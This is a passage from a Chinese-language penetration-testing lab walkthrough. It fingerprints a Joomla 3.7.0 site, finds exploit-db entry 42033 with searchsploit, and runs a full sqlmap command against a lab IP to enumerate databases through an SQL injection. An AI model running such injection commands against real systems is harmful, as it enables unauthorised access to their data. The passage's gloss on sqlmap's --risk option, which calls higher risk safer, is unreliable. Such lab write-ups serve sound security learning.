 

![image-20230806110340748](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806110340748.png)

扫描出了cms的版本，还有一些目录跟后台登入界面，这在信息收集部分已经发现

---

**searchsploit**

searchsploit是一款kali自带的搜索漏洞信息的模块，可参考[searchsploit漏洞查找工具使用指南](https://blog.csdn.net/whatday/article/details/102806149)

> searchsploit是一个基于Exploit-DB的命令行搜索工具，可以帮助我们查找渗透模块。
>
> Exploit-DB是一个漏洞库，Kali Linux中保存了一个该漏洞库的拷贝，可以查找需要的渗透模块，它将搜索所有的漏洞和shellcode而且该漏洞库是保存在本地的，在没有网络的情况下也可以使用。

```shell
# 搜索 joomla 3.7.0版本的漏洞
searchsploit joomla 3.7.0
```

![image-20230806110707060](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806110707060.png)

发现有SQL注入漏洞和跨站脚本漏洞

---

使用find命令找出`42033.txt`的位置

```shell
find / -name '42033.txt'
```

![image-20230806120618969](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806120618969.png)

查看文件内容

```shell
cat /usr/share/exploitdb/exploits/php/webapps/42033.txt
```

![image-20230806120719667](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806120719667.png)

给出了注入方法

#### 漏洞利用

##### **SQL注入**

- 列出所有数据库

> 过程有点久，耐心等待。。。

```shell
sqlmap -u "http://192.168.80.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]  


-dbs #检测站点有哪些数据库

--level    #sqlmap默认测试所有的GET和POST参数，当--level的值大于等于2的时候也会测试HTTP Cookie头的值，当大于等于3的时候也会测试User-Agent和HTTP Referer头的值。最高为5

--risk   #执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全
```
